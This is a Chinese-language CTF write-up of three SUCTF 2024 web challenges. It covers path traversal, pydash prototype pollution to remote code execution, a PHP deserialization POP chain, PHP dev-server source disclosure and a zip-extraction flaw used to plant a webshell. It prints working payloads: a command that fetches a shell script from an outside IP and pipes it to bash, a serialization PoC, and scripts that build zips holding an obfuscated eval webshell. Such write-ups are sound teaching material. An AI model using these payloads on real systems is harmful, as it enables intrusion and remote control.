# SUCTF_2024 复现

## Web

### **SU_blog**

> 考点：
>
> 1.目录穿越 
>
> 2.



拿到题目，注册一个账号 admin/123456

登进去



查看源代码



看到这个文章链接，猜测是目录穿越

双写绕过读到源码位置

```
/..././..././..././..././..././..././..././..././proc/self/cmdline
```



直接读源码



```python
from flask import Flask, render_template, request, redirect, url_for, session, flash, jsonify
import time, os, json, hashlib
from pydash import set_
from waf import pwaf, cwaf

app = Flask(__name__)
app.config['SECRET_KEY'] = hashlib.md5(str(int(time.time())).encode()).hexdigest()

users = {"testuser": "password"}
BASE_DIR = '/var/www/html/myblog/app'
articles = {
    1: "articles/article1.txt",
    2: "articles/article2.txt",
    3: "articles/article3.txt"
}
friend_links = [
    {"name": "bkf1sh", "url": "https://ctf.org.cn/"},
    {"name": "fushuling", "url": "https://fushuling.com/"},
    {"name": "yulate", "url": "https://www.yulate.com/"},
    {"name": "zimablue", "url": "https://www.zimablue.life/"},
    {"name": "baozongwi", "url": "https://baozongwi.xyz/"}
]

class User:
    def __init__(self):
        pass

user_data = User()

@app.route('/')
def index():
    if 'username' in session:
        return render_template('blog.html', articles=articles, friend_links=friend_links)
    return redirect(url_for('login'))

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']
        if username in users and users[username] == password:
            session['username'] = username
            return redirect(url_for('index'))
        else:
            return "Invalid credentials", 403
    return render_template('login.html')

@app.route('/register', methods=['GET', 'POST'])
def register():
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']
        users[username] = password
        return redirect(url_for('login'))
    return render_template('register.html')

@app.route('/change_password', methods=['GET', 'POST'])
def change_password():
    if 'username' not in session:
        return redirect(url_for('login'))
    if request.method == 'POST':
        old_password = request.form['old_password']
        new_password = request.form['new_password']
        confirm_password = request.form['confirm_password']
        if users[session['username']] != old_password:
            flash("Old password is incorrect", "error")
        elif new_password != confirm_password:
            flash("New passwords do not match", "error")
        else:
            users[session['username']] = new_password
            flash("Password changed successfully", "success")
        return redirect(url_for('index'))
    return render_template('change_password.html')

@app.route('/friendlinks')
def friendlinks():
    if 'username' not in session or session['username'] != 'admin':
        return redirect(url_for('login'))
    return render_template('friendlinks.html', links=friend_links)

@app.route('/add_friendlink', methods=['POST'])
def add_friendlink():
    if 'username' not in session or session['username'] != 'admin':
        return redirect(url_for('login'))
    name = request.form.get('name')
    url = request.form.get('url')
    if name and url:
        friend_links.append({"name": name, "url": url})
    return redirect(url_for('friendlinks'))

@app.route('/delete_friendlink/<int:index>')
def delete_friendlink(index):
    if 'username' not in session or session['username'] != 'admin':
        return redirect(url_for('login'))
    if 0 <= index < len(friend_links):
        del friend_links[index]
    return redirect(url_for('friendlinks'))

@app.route('/article')
def article():
    if 'username' not in session:
        return redirect(url_for('login'))
    file_name = request.args.get('file', '')
    if not file_name:
        return render_template('article.html', file_name='', content="未提供文件名。")
    blacklist = ["waf.py"]
    if any(blacklisted_file in file_name for blacklisted_file in blacklist):
        return render_template('article.html', file_name=file_name, content="大黑阔不许看")
    if not file_name.startswith('articles/'):
        return render_template('article.html', file_name=file_name, content="无效的文件路径。")
    if file_name not in articles.values():
        if session.get('username') != 'admin':
            return render_template('article.html', file_name=file_name, content="无权访问该文件。")
    file_path = os.path.join(BASE_DIR, file_name)
    file_path = file_path.replace('../', '')
    try:
        with open(file_path, 'r', encoding='utf-8') as f:
            content = f.read()
    except FileNotFoundError:
        content = "文件未找到。"
    except Exception as e:
        app.logger.error(f"Error reading file {file_path}: {e}")
        content = "读取文件时发生错误。"
    return render_template('article.html', file_name=file_name, content=content)

@app.route('/Admin', methods=['GET', 'POST'])
def admin():
    if request.args.get('pass') != "SUers":
        return "nonono"
    if request.method == 'POST':
        try:
            body = request.json
            if not body:
                flash("No JSON data received", "error")
                return jsonify({"message": "No JSON data received"}), 400
            key = body.get('key')
            value = body.get('value')
            if key is None or value is None:
                flash("Missing required keys: 'key' or 'value'", "error")
                return jsonify({"message": "Missing required keys: 'key' or 'value'"}), 400
            if not pwaf(key):
                flash("Invalid key format", "error")
                return jsonify({"message": "Invalid key format"}), 400
            if not cwaf(value):
                flash("Invalid value format", "error")
                return jsonify({"message": "Invalid value format"}), 400
            set_(user_data, key, value)
            flash("User data updated successfully", "success")
            return jsonify({"message": "User data updated successfully"}), 200
        except json.JSONDecodeError:
            flash("Invalid JSON data", "error")
            return jsonify({"message": "Invalid JSON data"}), 400
        except Exception as e:
            flash(f"An error occurred: {str(e)}", "error")
            return jsonify({"message": f"An error occurred: {str(e)}"}), 500
    return render_template('admin.html', user_data=user_data)

@app.route('/logout')
def logout():
    session.pop('username', None)
    flash("You have been logged out.", "info")
    return redirect(url_for('login'))

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)
```

参考文章：[Pydash 原型链污染](https://furina.org.cn/2023/12/18/prototype-pollution-in-pydash-ctf/)

这里考察的一个点就是pydash的原型链污染

```
set_(user_data, key, value)
```

根据参考文章，我们能够利用 jinja2 编译模板时的包进行利用,实现rce

```
{"name":"__init__.__globals__.__loader__.__init__.__globals__.sys.modules.jinja2.runtime.exported.0","value":"*;import os;os.system('id')"}
```

但是由于waf中ban了\_\_loader\_\_和除了2以外的数字，导致payload没办法直接用

可以调试一下



既然这个\_\_loader\_\_被ban了，我们可以将它替换成\_\_spec\_\_，反正只要最后能走回sys模块就行

对于value这题也是有waf的，但是没有ban掉curl，但还需要稍微绕一下，考虑通过curl来弹shell

payload:

```
{"key":"__init__.__globals__.time.__spec__.__init__.__globals__.sys.modules.jinja2.runtime.exported.2","value":"*;import os;os.system('curl http://106.55.168.231/shell.sh|bash')"}
```

可以搓个脚本用来发包

```python
import requests
import json
url="http://27.25.151.48:10002/Admin?pass=SUers"

payload={"key":"__init__.__globals__.time.__spec__.__init__.__globals__.sys.modules.jinja2.runtime.exported.2","value":"*;import os;os.system('curl http://106.55.168.231/shell.sh|bash')"}

headers={'Content-Type': 'application/json'}
payload_json=json.dumps(payload)
print(payload_json)

r=requests.post(url,data=payload_json,headers=headers)
print(r.text)
```


### SU_pop

入口类

vendor\react\promise\src\Internal\RejectedPromise.php

RejectedPromise类



handler，reason可控，可以通过拼接调用任意类的__tostring方法

接下来找__tostring方法

找到\vendor\cakephp\cakephp\src\Http\Response.php



stream的值可控，可以调用任意类的__call()方法

vendor\cakephp\cakephp\src\ORM\Table.php



这里的_behaviors是可控的，可以调用任意类的call方法

我们可以找到 vendor\cakephp\cakephp\src\ORM\BehaviorRegistry.php的call方法

同时BehaviorRegistry.php也有hasMethod方法



在call方法中由于可以通过构造\_loaded和\_methodMap达到调用任意类和方法的目的

> 一开始这段代码有点没看明白，gpt一下
>
> 


接下来就是找sink了

比较干净的一个 vendor\phpunit\phpunit\src\Framework\MockObject\Generator\MockClass.php



我们只需要使这个mockName的类名不存在即可命令执行

接下来构造poc

```php
<?php

namespace React\Promise\Internal;
use Cake\Http\Response;
final class RejectedPromise 
{
    private $reason = "what the fuck";
    private $handled = false;
    public function __construct()
    {
        $this->reason = new Response();
    }
}

namespace Cake\Http;
use Cake\ORM\Table;
class Response
{
    private $stream;
    public function __construct(){
        $this->stream = new Table();
    }

}

namespace Cake\ORM;

class Table{
    protected BehaviorRegistry $_behaviors;
    public function __construct(){
        $this->_behaviors = new BehaviorRegistry();
    }
}


class ObjectRegistry{}
use PHPUnit\Framework\MockObject\Generator\MockClass;
class BehaviorRegistry
{
    protected array $_methodMap;
    protected array $_loaded = [];
    public function __construct(){
        $this->_methodMap = ["rewind"=>array("xrntkk","generate")];
        $this->_loaded = ["xrntkk"=>new MockClass()];
    }
}
namespace PHPUnit\Framework\MockObject\Generator;

use function call_user_func;
use function class_exists;
final class MockClass
{
    private readonly string $classCode ;
    private readonly string $mockName;
    public function __construct()
    {
        $this->classCode = "phpinfo();";
        $this->mockName = "ggwp";
    }

}


namespace React\Promise\Internal;
$poc = new RejectedPromise();
echo base64_encode(serialize($poc));


```

注意命名空间规范!!!!

后续就是提权读flag


### SU_photogallery



hint，可以通过这个猜到存在unzip页面


该版本的php存在源码泄露的漏洞

[PHP<=7.4.21 Development Server源码泄露漏洞](https://buaq.net/go-147962.html)



payload:这个payload很讲究，少两个回车都读不了

```
GET /unzip.php HTTP/1.1
Host: localhost:9595

GET /1.txt HTTP/1.1


```

读到unzip.php的源码

```php
<?php
/*
 * @Author: Nbc
 * @Date: 2025-01-13 16:13:46
 * @LastEditors: Nbc
 * @LastEditTime: 2025-01-13 16:31:53
 * @FilePath: \src\unzip.php
 * @Description: 
 * 
 * Copyright (c) 2025 by Nbc, All Rights Reserved. 
 */
error_reporting(0);

function get_extension($filename){
    return pathinfo($filename, PATHINFO_EXTENSION);
}
function check_extension($filename,$path){
    $filePath = $path . DIRECTORY_SEPARATOR . $filename;
    
    if (is_file($filePath)) {
        $extension = strtolower(get_extension($filename));

        if (!in_array($extension, ['jpg', 'jpeg', 'png', 'gif'])) {
            if (!unlink($filePath)) {
                // echo "Fail to delete file: $filename\n";
                return false;
                }
            else{
                // echo "This file format is not supported:$extension\n";
                return false;
                }
    
        }
        else{
            return true;
            }
}
else{
    // echo "nofile";
    return false;
}
}
function file_rename ($path,$file){
    $randomName = md5(uniqid().rand(0, 99999)) . '.' . get_extension($file);
                $oldPath = $path . DIRECTORY_SEPARATOR . $file;
                $newPath = $path . DIRECTORY_SEPARATOR . $randomName;

                if (!rename($oldPath, $newPath)) {
                    unlink($path . DIRECTORY_SEPARATOR . $file);
                    // echo "Fail to rename file: $file\n";
                    return false;
                }
                else{
                    return true;
                }
}

function move_file($path,$basePath){
    foreach (glob($path . DIRECTORY_SEPARATOR . '*') as $file) {
        $destination = $basePath . DIRECTORY_SEPARATOR . basename($file);
        if (!rename($file, $destination)){
            // echo "Fail to rename file: $file\n";
            return false;
        }
      
    }
    return true;
}


function check_base($fileContent){
    $keywords = ['eval', 'base64', 'shell_exec', 'system', 'passthru', 'assert', 'flag', 'exec', 'phar', 'xml', 'DOCTYPE', 'iconv', 'zip', 'file', 'chr', 'hex2bin', 'dir', 'function', 'pcntl_exec', 'array', 'include', 'require', 'call_user_func', 'getallheaders', 'get_defined_vars','info'];
    $base64_keywords = [];
    foreach ($keywords as $keyword) {
        $base64_keywords[] = base64_encode($keyword);
    }
    foreach ($base64_keywords as $base64_keyword) {
        if (strpos($fileContent, $base64_keyword)!== false) {
            return true;

        }
        else{
           return false;

        }
    }
}

function check_content($zip){
    for ($i = 0; $i < $zip->numFiles; $i++) {
        $fileInfo = $zip->statIndex($i);
        $fileName = $fileInfo['name'];
        if (preg_match('/\.\.(\/|\.|%2e%2e%2f)/i', $fileName)) {
            return false; 
        }
            // echo "Checking file: $fileName\n";
            $fileContent = $zip->getFromName($fileName);
            

            if (preg_match('/(eval|base64|shell_exec|system|passthru|assert|flag|exec|phar|xml|DOCTYPE|iconv|zip|file|chr|hex2bin|dir|function|pcntl_exec|array|include|require|call_user_func|getallheaders|get_defined_vars|info)/i', $fileContent) || check_base($fileContent)) {
                // echo "Don't hack me!\n";    
                return false;
            }
            else {
                continue;
            }
        }
    return true;
}

function unzip($zipname, $basePath) {
    $zip = new ZipArchive;

    if (!file_exists($zipname)) {
        // echo "Zip file does not exist";
        return "zip_not_found";
    }
    if (!$zip->open($zipname)) {
        // echo "Fail to open zip file";
        return "zip_open_failed";
    }
    if (!check_content($zip)) {
        return "malicious_content_detected";
    }
    $randomDir = 'tmp_'.md5(uniqid().rand(0, 99999));
    $path = $basePath . DIRECTORY_SEPARATOR . $randomDir;
    if (!mkdir($path, 0777, true)) {
        // echo "Fail to create directory";
        $zip->close();
        return "mkdir_failed";
    }
    if (!$zip->extractTo($path)) {
        // echo "Fail to extract zip file";
        $zip->close();
    }
    else{
        for ($i = 0; $i < $zip->numFiles; $i++) {
            $fileInfo = $zip->statIndex($i);
            $fileName = $fileInfo['name'];
            if (!check_extension($fileName, $path)) {
                // echo "Unsupported file extension";
                continue;
            }
            if (!file_rename($path, $fileName)) {
                // echo "File rename failed";
                continue;
            }
        }
    }

    if (!move_file($path, $basePath)) {
        $zip->close();
        // echo "Fail to move file";
        return "move_failed";
    }
    rmdir($path);
    $zip->close();
    return true;
}


$uploadDir = __DIR__ . DIRECTORY_SEPARATOR . 'upload/suimages/';
if (!is_dir($uploadDir)) {
    mkdir($uploadDir, 0777, true);
}

if (isset($_FILES['file']) && $_FILES['file']['error'] === UPLOAD_ERR_OK) {
    $uploadedFile = $_FILES['file'];
    $zipname = $uploadedFile['tmp_name'];
    $path = $uploadDir;

    $result = unzip($zipname, $path);
    if ($result === true) {
        header("Location: index.html?status=success");
        exit();
    } else {
        header("Location: index.html?status=$result");
        exit();
    }
} else {
    header("Location: index.html?status=file_error");
    exit();
}
```

> **为什么读unzip.php？**
>
> 
>
> 上传文件，抓包可以看见啦

接下来就是审计代码了

这题的漏洞点在于这里

```php
   if (!$zip->extractTo($path)) {
        // echo "Fail to extract zip file";
        $zip->close();
    }
```

可以发现这里在解压失败的时候`$zip->close();`但是并没有return。所以我们只需要构造一个压缩包，解压出我们想解压的部分，然后其他部分是损坏的，这样是不是就可以让整个解压过程是出错的从而进入到if里，我们的shell就这样留下了。

```
构造压缩包放入webshell和任意文件如1.txt->开始解压->shell解压成功->1.txt解压失败进入if-> $zip->close()
```

想让ZipArchive报错有两种方法，一种是把文件名改成////，在Linux下文件名不能是'/'所以报错

另一种是放一个名字超长的文件使其解压时报错：[CTF中zip文件的使用](https://twe1v3.top/2022/10/CTF中zip文件的使用)

小脚本

```python
import zipfile
import io

mf = io.BytesIO()
with zipfile.ZipFile(mf, mode="w", compression=zipfile.ZIP_STORED) as zf:
    zf.writestr('1.php', b'<?php @eval($_POST['cmd']);?>')
    zf.writestr('A' * 5000, b'AAAAA')

with open("shell.zip", "wb") as f:
    f.write(mf.getvalue())
```

直接用肯定是不行的，马子会被waf

在这之前我们还要过一下黑名单

    if (!check_content($zip)) {
        return "malicious_content_detected";
    }

```php
function check_content($zip){
    for ($i = 0; $i < $zip->numFiles; $i++) {
        $fileInfo = $zip->statIndex($i);
        $fileName = $fileInfo['name'];
        if (preg_match('/\.\.(\/|\.|%2e%2e%2f)/i', $fileName)) {
            return false; 
        }
            // echo "Checking file: $fileName\n";
            $fileContent = $zip->getFromName($fileName);
            

            if (preg_match('/(eval|base64|shell_exec|system|passthru|assert|flag|exec|phar|xml|DOCTYPE|iconv|zip|file|chr|hex2bin|dir|function|pcntl_exec|array|include|require|call_user_func|getallheaders|get_defined_vars|info)/i', $fileContent) || check_base($fileContent)) {
                // echo "Don't hack me!\n";    
                return false;
            }
            else {
                continue;
            }
        }
    return true;
}
```

[一句话木马详解-CSDN博客](https://blog.csdn.net/bylfsj/article/details/101227210)

```php
import zipfile
import io

mf = io.BytesIO()
with zipfile.ZipFile(mf, mode="w", compression=zipfile.ZIP_STORED) as zf:
    zf.writestr('1.php', b'<?php $a="e"."v"; $b="a"."l"; $c=$a.$b; $c($_POST[\'1\']); ?>')
    zf.writestr('A' * 5000, b'AAAAA')

with open("shell.zip", "wb") as f:
    f.write(mf.getvalue())
```

一句话木马变个型

